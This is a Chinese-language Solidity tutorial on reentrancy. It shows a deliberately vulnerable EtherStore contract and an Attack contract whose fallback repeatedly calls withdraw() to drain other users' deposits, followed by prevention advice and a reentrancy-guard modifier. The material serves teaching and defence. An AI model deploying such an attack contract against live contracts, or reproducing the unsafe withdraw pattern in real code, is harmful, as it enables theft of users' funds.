

# 66.Re-Entrancy
## 漏洞
假设合约A调用合约B。
重入攻击漏洞允许B在A完成执行之前回调A。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
EtherStore是一个合约，您可以存入和取出ETH。该合约容易受到可重入攻击的威胁。让我们来看看为什么。

1. 部署EtherStore
2. 从账户1（Alice）和账户2（Bob）各存入1个以太币到EtherStore
3. 部署攻击合约并指定EtherStore的地址
4. 使用账户3（Eve）调用Attack.attack函数并发送1个以太币。
   你将会得到3个以太币（其中2个以太币是从Alice和Bob那里被盗取的，另外1个以太币是从这个合约发送的）。

发生了什么？
攻击者能够在EtherStore.withdraw执行完成之前多次调用EtherStore.withdraw。

以下是函数的调用方式：
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (收到 1 Ether)
- EtherStore.withdraw
- Attack.fallback (收到 1 Ether)
- EtherStore.withdraw
- Attack fallback (收到 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // 当EtherStore向此合约发送以太币时，将调用Fallback函数。
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // 辅助函数，用来检查此合同的余额
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 预防技术
* 确保在调用外部合约之前发生所有状态更改
* 使用函数修饰符防止重入
以下是一个防止重入的示例保护
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```
# remix验证
部署合约EtherStore，调用deposit()函数转入1ETH，显示余额为1ETH。

部署合约Attack，输入合约EtherStore的地址，然后调用attack（）函数并转入1ETH，会进行重入攻击，显示余额为2ETH。

